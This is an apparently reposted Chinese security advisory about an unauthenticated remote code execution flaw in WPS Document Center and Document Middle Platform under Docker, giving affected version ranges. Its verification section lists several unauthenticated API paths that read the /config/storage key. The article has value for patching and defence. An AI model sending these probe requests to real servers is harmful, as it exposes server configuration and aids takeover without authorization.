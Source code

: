 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMTg1ODAwNw==&mid=2247500987&idx=1&sn=25f8d604058e852f92ef77abc5548ad6

#  WPS 文档中心与文档中台远程代码执行漏洞远程代码执行漏洞  
原创 安全透视镜  网络安全透视镜   2025-07-17 13:55  
  
漏洞描述  
  
WPS 文档中心与文档中台在 Docker 部署模式下存在未授权接口，攻击者无需身份验证即可通过构造特制数据包实现远程代码执行，获取服务器控制权。  
  
影响范围：  
  
影响范围 WPS文档中台版本v6.02205<=version<v7.1.2405受影响  
  
WPS文档中心版本v7.0.2306b<=version<v7.0.2405b受影响  
  
验证方法  
  
  
POC：向未授权接口发送包含恶意命令的 JSON/XML 数据包即可触发漏洞。  
  
  
/open/v6/api/etcd/operate?key=/config/storage&method=get  
  
/open/api/etcd/operate?key=/config/storage&method=get  
  
/mgr/api/etcd/operate?key=/config/storage&method=get  
  
/mgr/api/mq/v1/receive/msg?key=/config/storage&method=get  
  
/open/api/tools/v1/collect/appactivity?key=/config/storage&method=get/mgr/api/tools/v1/collect/appactivity?key=/config/storage&method=get  
  
  
